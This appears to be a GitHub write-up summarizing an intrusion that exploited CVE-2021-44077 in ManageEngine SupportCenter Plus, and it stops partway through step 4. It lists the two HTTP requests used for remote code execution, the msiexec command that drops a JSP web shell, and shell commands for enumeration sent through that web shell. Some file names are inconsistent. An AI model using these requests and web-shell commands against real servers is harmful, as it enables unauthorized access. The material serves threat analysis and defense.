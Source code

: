 # Attack Roadmap

### Will the Real Msiexec Please Stand Up? Exploit Leads to Data Exfiltration

<img src="AttackRoadmap.png"  width="20%" height="20%">

## Let's Summarize Each Step
#### 1. Exploit [CVE-2021-44077](https://nvd.nist.gov/vuln/detail/CVE-2021-44077) The exploit looks very similar to a publicly available POC exploit on [GitHub](https://github.com/horizon3ai/CVE-2021-44077).
##### Exploit Method: RCE via two HTTP requests.
 - Request 1: POST request to /RestAPI/ImportTechnicians?step=1 contains `msiexec.exe` and was written to C:\Program Files\ManageEngine\SupportCenterPlus\bin\msiexec.exe.

 - Request 2: GET request to /RestAPI/s247action?execute=s247AgentInstallationProcess&apikey=asdasd, and invoke the uploaded `msiexec.exe`.

  ![image](https://github.com/user-attachments/assets/ce028655-d691-4c2d-86e3-370d9ce76742)

#### 2. Web Shell Deployment:
- The Malicous msiexec.exe contains encoded web shell once `msiexec.exe /i Site24x7WindowsAgent.msi EDITA1=asdasd /qn` there is a webshell file `jm2.jsp` written to `C:\Program Files\ManageEngine\SupportCenterPlus\custom\login\fm2.jsp`, this way will allow the threat actor to maintain the access with no need to execute the exploit once again.
- Now you have an access to the system through `http://<victim_ip:8080/custom/login/jm2.jsp`
  
  ![image](https://github.com/user-attachments/assets/65b4b314-1bf1-44cb-b281-8c5fa18156ac)

#### 3. System Enumeration
- Then basic enumuration is made.
  ```
  https://server.example/custom/login/fm2.jsp?cmd=arp -a
  https://server.example/custom/login/fm2.jsp?cmd=systeminfo
  https://server.example/custom/login/fm2.jsp?cmd=tasklist
  https://server.example/custom/login/fm2.jsp?cmd=wmic computersystem get domain
  ```
#### 4. 
